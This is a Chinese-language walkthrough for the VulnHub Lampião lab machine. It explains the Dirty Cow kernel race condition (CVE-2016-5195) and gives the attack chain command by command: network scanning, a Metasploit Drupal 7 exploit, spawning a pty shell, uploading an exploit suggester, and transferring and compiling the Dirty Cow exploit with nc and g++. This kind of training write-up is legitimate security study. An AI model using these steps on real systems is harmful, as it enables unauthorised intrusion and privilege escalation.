



# Dirty Cow

> 靶机地址：[lampiao](https://www.vulnhub.com/entry/lampiao-1,249/)
>
> 下载地址：[**Lampião: 1** ](https://download.vulnhub.com/lampiao/Lampiao.zip)

### 漏洞介绍

#### 简介

脏牛（Dirty Cow）是Linux内核的一个提权漏洞，之所以叫Dirty Cow，Linux内核的内存子系统在处理写时拷贝（Copy-on-Write)时存在条件竞争漏洞，导致可以破坏私有只读内存映射。一个低权限的本地用户能够利用此漏洞获取其他只读内存映射的写权限，有可能进一步导致提权漏洞。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。脏牛的CVE编号是CVE-2016-5195。

#### 原因

很多情况下，我们希望能够并行地去处理多个相同的进程（比如我们需要去并行计算一些东西），所以内核中就存在复制进程的操作，而fork()函数就是用来复制进程的函数，它可以拷贝当前进程的内存空间，创建一个新的内存空间，这样我们就拥有了两个完全一样的进程空间。但是这个复制过程是很耗费空间和时间的，因为每个子进程都有和父进程一样大的物理空间，但是这些进程可能并不会执行写的操作，也就是不会对原始的文件进行更改，那这种浪费就是没有必要的，所以我们采取了COW（Copy On Write）技术进行优化。

COW（Copy On Write）技术是一种内存管理技术，它在进程复制时，不会立即为进程分配物理内存，而是为进程建立虚拟的内存空间，将虚拟空间指向物理空间，便于读取文件；只有当需要执行文件写操作的时候，才会复制一份物理内存空间分配给它，然后进程在这个复制完的物理内存空间中进行修改，而不会影响其他进程。换句话说，在COW机制中，当多个进程共享一个只读文件的时候，内核会把该文件的内存映射到这些进程的虚拟地址空间中，这些进程都可以读取该文件的内容，当有进程要修改文件时，就会把这个原始文件的状态改成可写状态，然后内核会将该原始文件复制一份，原始文件再改回只读状态，然后进程就修改这份副本，而原始文件仍然可以被其它进程共享，这就是Copy-on-Write的核心思想。

**原始只读文件——>修改为可写状态——>复制原始只读文件——>原始状态改回可读。**

但是在这个过程中，存在竞态条件。假如现在多个进程同时共享一个只读文件，那么内核可能会把这个文件复制多次，使得每个进程可以修改，但是在内核将原始只读文件的访问状态从可写改回只读之前，多个进程都可以访问和修改原始文件，导致了竞态条件的产生，如果有恶意进程在这段时间进行了修改，那么修改的就是原始文件，从而产生了漏洞。

该漏洞利用了Copy-on-Write机制中的竞态条件，攻击者可以利用这个竞态条件来获取对一个本来只读的文件的写权限，从而提升为本地管理员权限。

#### 类型

内核竞态条件漏洞

#### 版本

Linux kernel>2.6.22的所有Linux系统（即：从2007年发布的2.6.22开始，到2016年10月18日位置，这中间发行的所有Linux系统都受影响）

#### 危害

本地提权

---

### 信息收集

#### 主机扫描

```
 sudo arp-scan -l 
```


#### 端口扫描

```bash
sudo nmap --min-rate 10000 -p- 192.168.8.29
```


详情扫描

```bash
sudo nmap -sT -sC -sV -O -p 22,80,1898  192.168.8.29
```


可以看到`1889端口`使用的是`Drupal7`的CMS

### 漏洞探测

访问`80`


访问`1898`


通过指纹识别插件也可以看到是`Drupal 7`


### 漏洞利用

使用msf

```
search drupal 7
```




```bash
use 1
show options
```


显示该模块的可用选项，发现我们需要指定主机和端口

```bash
set rhosts 192.168.8.29
set rport 1898
run
```



查看一下当前的用户，发现不是root用户，证明需要进行本地提权，我们将放在攻击机上的漏洞探针脚本上传到靶机

```bash
getuid
```


可以使用`uname -a`，找到相应的版本，并查看是否可以有相关漏洞可以利用

也可以使用相关探针进行探测，这里使用`linux-exploit-suggester.sh`

```bash
git clone https://github.com/mzet-/linux-exploit-suggester
```


上传漏洞探测脚本

```
upload /home/kali/tools/linux-exploit-suggester/linux-exploit-suggester.sh   /tmp/demo.sh
```


文件上传成功后，使用`shell`命令，执行提升权限，执行探测脚本

```bash
shell
python -c "import pty;pty.spawn('/bin/bash')"
chmod +x demo.sh
./demo.sh
```


执行成功后，探测出了相应的信息及漏洞，我们就发现有一个漏洞就是脏牛漏洞（CVE-2016-5195）


#### 权限提升

EXP地址：https://github.com/gbonacini/CVE-2016-5195


#### nc文件传输

使用`nc`进行文件传输

靶机上进行监听

```
nc -l 5064 > dcow.cpp
```

kali攻击机

```
nc 192.168.8.29 5064 < dcow.cpp
```


#### 编译

靶机上进行编译生成一个可执行文件`dcow`

```c
g++ -Wall -pedantic -o2 -std=c++11 -pthread -o dcow dcow.cpp -lutil

或者直接输入 make 进行编译成可执行文件
```




提权


### 参考

- https://dirtycow.ninja/
- https://www.anquanke.com/post/id/84851